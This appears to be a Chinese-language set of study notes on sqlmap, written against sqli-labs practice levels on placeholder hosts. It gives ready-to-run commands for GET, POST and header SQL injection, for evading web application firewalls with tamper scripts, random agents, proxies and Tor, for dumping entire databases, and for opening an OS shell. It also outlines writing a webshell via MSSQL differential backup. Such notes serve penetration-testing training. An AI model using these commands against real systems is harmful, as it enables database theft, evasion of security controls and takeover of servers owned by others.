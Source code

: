 ## SQLMap怎么对一个注入点进行注入？

1、get类型注入，直接sqlmap -u url地址
2、post类型，（1）sqlmap -u url --data=post的参数 （2）sqlmap -r 请求数据包的文件地址

```
sqlmap -u "http://xxx/sqli/Less-11/?id=1" --data="uname=admin&passwd=admin&submit=Submit"
```

3、header注入，sqlmap -r 请求数据包的文件地址
注：在进行post注入或header注入时，可以使用*标记注入点

## MSSQL差异备份怎么getshell

前提条件：
1、MSSQL具体dbo和sa权限（数据库备份权限）
2、支持堆叠查询
3、知道网站绝对路径
实现原理
完整备份后，再次对数据库进行修改，差异备份会记录最后的LSN，将shell写入数据库，备份成asp即可getshell。

## SQL注入Bypass（过waf）思路

1、内联注释绕过
2、填充脏数据绕过
3、更改请求方式，如GET改为POST
4、随机agent绕过
5、fuzz过滤函数，函数替换绕过
6、sqlmap,tamper脚本绕过----上述思路

查看所有数据库
```
sqlmap -u "http://xxx/sqli/Less-1/?id=1" --current-db
```
查看指定数据库（security）所含所有表
```
sqlmap -u "http://xxx/sqli/Less-1/?id=1" -D security --tables
```

脱裤
```
sqlmap -u "http://xxx/sqli/Less-1/?id=1" --dump-all
```

## **对于需要登录的网站，我们需要指定其cookie**

##### 我们可以用账号密码登录，然后用`bp`抓取其cookie填入

```
sqlmap -u  "http://xxx/sqli/Less-1/?id=1"   --cookie="抓取的cookie"
```

##### **对于是post提交数据的URL，我们需要指定其data参数**

```
sqlmap -u "http://xxx/sqli/Less-11/?id=1" --data="uname=admin&passwd=admin&submit=Submit"
```

##### 下面是sqlmap参数绕过waf的一些命令

```
#使用参数进行绕过
--random-agent    使用任意HTTP头进行绕过，尤其是在WAF配置不当的时候
--time-sec=3      使用长的延时来避免触发WAF的机制，这方式比较耗时
--hpp             使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上
--proxy=100.100.100.100:8080 --proxy-cred=211:985      使用代理进行绕过
--ignore-proxy    禁止使用系统的代理，直接连接进行注入
--flush-session   清空会话，重构注入
--hex 或者 --no-cast     进行字符码转换
--mobile          对移动端的服务器进行注入
--tor             匿名注入
```

有些时候网站会过滤掉各种字符，可以用tamper来解决（对付某些waf时也有成效）

sqlmap 官方提供了70个绕过脚本（不是53个，我的版本是1.7.3.4），脚本目录在`/usr/share/sqlmap/tamper`中

指定单个脚本进行绕过：

```
sqlmap -u "http://xxx/Less-1/?id=1" --tamper=space2plus.py 
```

指定多个脚本进行绕过：

```
sqlmap -u "http://xxx/Less-1/?id=1" --tamper="space2comment.py,space2plus.py"
```

## 探测等级和危险等级(—level —risk)

sqlmap一共有5个探测等级，默认是1。等级越高，说明探测时使用的payload也越多。其中5级的payload最多，会自动破解出cookie、XFF等头部注入。当然，等级越高，探测的时间也越慢。这个参数会影响测试的注入点，GET和POST的数据都会进行测试，HTTP cookie在level为2时就会测试，HTTP User-Agent/Referer头在level为3时就会测试。在不确定哪个参数为注入点时，为了保证准确性，建议设置level为5

危险等级：此参数用于指定风险等级，有1~3共3级。默认风险等级为1,此等级在大多数情况下对测试目标无害。 风险等级2添加了基于时间的注入测试,等级3添加了OR测试

## 执行操作系统命令(—os-shell)

在数据库为MySQL、PostgreSql或者SQL Server时，可以通过sqlmap执行操作系统命令

**当为MySQL数据库时，需满足下面条件：**

- 当前用户为 root

- 知道网站根目录的绝对路径

- ```
  sqlmap -u "http://xxx:7777/Less-1/?id=1" --os-shell
  ```

  
